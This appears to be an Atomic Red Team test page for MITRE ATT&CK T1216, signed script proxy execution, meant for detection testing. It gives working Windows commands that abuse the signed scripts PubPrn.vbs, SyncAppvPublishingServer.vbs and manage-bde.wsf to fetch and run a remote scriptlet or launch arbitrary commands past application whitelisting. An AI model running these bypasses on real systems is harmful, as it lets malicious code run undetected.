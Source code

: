 # T1216 - Signed Script Proxy Execution

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1216)

<blockquote>Scripts signed with trusted certificates can be used to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application whitelisting solutions that do not account for use of these scripts.

PubPrn.vbs is signed by Microsoft and can be used to proxy execution from a remote site. (Citation: Enigma0x3 PubPrn
Bypass) Example command: <code>cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:
http[:]//192.168.1.100/hi.png</code>

There are several other signed scripts that may be used in a similar manner. (Citation: GitHub Ultimate AppLocker Bypass
List)</blockquote>

## Atomic Tests

- [Atomic Test #1 - PubPrn.vbs Signed Script Bypass](#atomic-test-1---pubprnvbs-signed-script-bypass)

- [Atomic Test #2 - SyncAppvPublishingServer Signed Script PowerShell Command Execution](#atomic-test-2---syncappvpublishingserver-signed-script-powershell-command-execution)

- [Atomic Test #3 - manage-bde.wsf Signed Script Command Execution](#atomic-test-3---manage-bdewsf-signed-script-command-execution)

<br/>

## Atomic Test #1 - PubPrn.vbs Signed Script Bypass

Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_payload | A remote payload to execute using PubPrn.vbs. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216/src/T1216.sct|

#### Attack Commands: Run with `command_prompt`!

```cmd
cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs localhost "script:#{remote_payload}"
```

<br/>
<br/>

## Atomic Test #2 - SyncAppvPublishingServer Signed Script PowerShell Command Execution

Executes the signed SyncAppvPublishingServer script with options to execute an arbitrary PowerShell command.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | A PowerShell command to execute. | string | Start-Process calc|

#### Attack Commands: Run with `command_prompt`!

```cmd
C:\windows\system32\SyncAppvPublishingServer.vbs "\n;#{command_to_execute}"
```

<br/>
<br/>

## Atomic Test #3 - manage-bde.wsf Signed Script Command Execution

Executes the signed manage-bde.wsf script with options to execute an arbitrary command.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | A command to execute. | Path | C:&#92;Windows&#92;System32&#92;calc.exe|

#### Attack Commands: Run with `command_prompt`!

```cmd
set comspec=#{command_to_execute}
cscript manage-bde.wsf
```

#### Cleanup Commands:

```cmd
set comspec=C:\Windows\System32\cmd.exe
```

<br/>

